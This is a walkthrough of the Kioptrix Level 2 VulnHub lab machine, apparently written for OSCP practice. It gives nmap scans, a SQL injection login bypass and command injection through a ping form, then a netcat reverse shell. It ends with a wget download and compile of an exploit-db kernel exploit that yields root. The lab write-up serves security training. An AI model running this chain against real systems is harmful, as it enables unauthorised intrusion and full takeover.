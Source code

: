 ```yaml
---
title : "Kioptrix 2 - Walkthrough"
date : 21-10-2024
tags : [OSCP]
---
```



![image source — techyrick.com](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*dbY1LPvaWVR_kkE9GoiqtA.jpeg)

**Setup:**

Download VM from this [link](https://www.vulnhub.com/entry/kioptrix-level-11-2,23/)

1.  Extract and open the VM in VMware.
2.  Issues faced that network adaptor changes to bridged automatically and not assigned any IP when you do netdiscover in kali.
3.  To overcome this, Open .vmx file in the vm folder, search for the term “bridged”, two results will be shown, delete the line of first result, and change the word “bridged” to “nat” in second result.
4.  Open the vm and use netdiscover to find the IP assigned to the kioptrix Level 2.

Find IP using netdiscover command

```bash
netdiscover -r 192.168.211.0/24
```

kioptrix IP — 192.168.211.132

Start Port scan using nmap

```bash
nmap -F -sV 192.168.211.132
```

Output

```bash
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-14 15:58 IST
Nmap scan report for 192.168.211.132
Host is up (0.0018s latency).
Not shown: 94 closed tcp ports (reset)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 3.9p1 (protocol 1.99)
80/tcp   open  http     Apache httpd 2.0.52 ((CentOS))
111/tcp  open  rpcbind  2 (RPC #100000)
443/tcp  open  ssl/http Apache httpd 2.0.52 ((CentOS))
631/tcp  open  ipp      CUPS 1.1
3306/tcp open  mysql    MySQL (unauthorized)
MAC Address: 00:0C:29:49:DE:5B (VMware)
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.95 seconds
```
```bash
nmap -sC -sV -O -oA initial 192.168.211.132
```

*   sC - run default nmap scripts -sV - detect service version -O - detect OS -oA - output all formats and store in file _initial_

```bash
# Nmap 7.93 scan initiated Sun May 14 16:00:34 2023 as: nmap -sC -sV -O -oA initial 192.168.211.132
Nmap scan report for 192.168.211.132
Host is up (0.00072s latency).
Not shown: 994 closed tcp ports (reset)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 3.9p1 (protocol 1.99)
|_sshv1: Server supports SSHv1
| ssh-hostkey: 
|   1024 8f3e8b1e5863fecf27a318093b52cf72 (RSA1)
|   1024 346b453dbacecab25355ef1e43703836 (DSA)
|_  1024 684d8cbbb65abd7971b87147ea004261 (RSA)
80/tcp   open  http     Apache httpd 2.0.52 ((CentOS))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.0.52 (CentOS)
111/tcp  open  rpcbind  2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            627/udp   status
|_  100024  1            630/tcp   status
443/tcp  open  ssl/http Apache httpd 2.0.52 ((CentOS))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC4_64_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|_    SSL2_RC4_128_WITH_MD5
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2009-10-08T00:10:47
|_Not valid after:  2010-10-08T00:10:47
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.0.52 (CentOS)
631/tcp  open  ipp      CUPS 1.1
|_http-title: 403 Forbidden
| http-methods: 
|_  Potentially risky methods: PUT
|_http-server-header: CUPS/1.1
3306/tcp open  mysql    MySQL (unauthorized)
MAC Address: 00:0C:29:49:DE:5B (VMware)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.13 - 2.6.32, Linux 2.6.9, Linux 2.6.9 - 2.6.24, Linux 2.6.9 - 2.6.30, Linux 2.6.9 - 2.6.33
Network Distance: 1 hop
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun May 14 16:01:00 2023 -- 1 IP address (1 host up) scanned in 26.42 seconds
```

as we see port 80 is open, go to the chrome and put kioptrix 2 IP, to check website available for us,

There a page with username and password is shown, try basic sql injection methods,

Try - "admin' OR 1=1 -- -" in username field, password as blank, you will get successful login

```bash
admin' OR 1=1 -- -
```

After it will redirect to a page, called Ping a Machine on the Network:, there you can put IP it will ping for us,

So lets test other command like 'whoami' combined with ping using semicolon ';'

as we see we will get output of the command we combined.

So lets make reverse shell, using Reverse shell generator using this [link](https://www.revshells.com/)

Create listener using netcat - "nc -lvnp {listener port}"

Paste the code in the box, and wait for the connection

```bash
root@Kali# nc -lvnp 455
listening on [any] 455 ...
connect to [192.168.211.128] from (UNKNOWN) [192.168.211.132] 33064
```

As we see, We got shell back

```bash
bash-3.00$ whoami
apache
bash-3.00$ uname -a
Linux kioptrix.level2 2.6.9-55.EL #1 Wed May 2 13:52:16 EDT 2007 i686 i686 i386 GNU/Linux
bash-3.00$ lsb_release -a
LSB Version:    :core-3.0-ia32:core-3.0-noarch:graphics-3.0-ia32:graphics-3.0-noarch
Distributor ID:    CentOS
Description:    CentOS release 4.5 (Final)
Release:    4.5
Codename:    Final
```

So as per enum, we got centOS version, that can be exploit which leads to elevated shell, using this [exploit](https://www.exploit-db.com/download/9542)

Headover to /tmp directory and download exploit using 'wget'

```bash
bash-3.00$ cd /tmp
bash-3.00$ wget https://www.exploit-db.com/download/9542
bash-3.00$ ls
9542
logwatch.miaC5174
```

compile useing gcc and run the exploit to get elevated root shell

```bash
bash-3.00$ mv 9542 9542.c
bash-3.00$ gcc -o pwn 9542.c
9542.c:109:28: warning: no newline at end of file
bash-3.00$ ls
9542.c
logwatch.miaC5174
pwn
bash-3.00$ ./pwn    
sh: no job control in this shell
sh-3.00# sh-3.00# whoami
root
sh-3.00#
```

Thanks for the time spent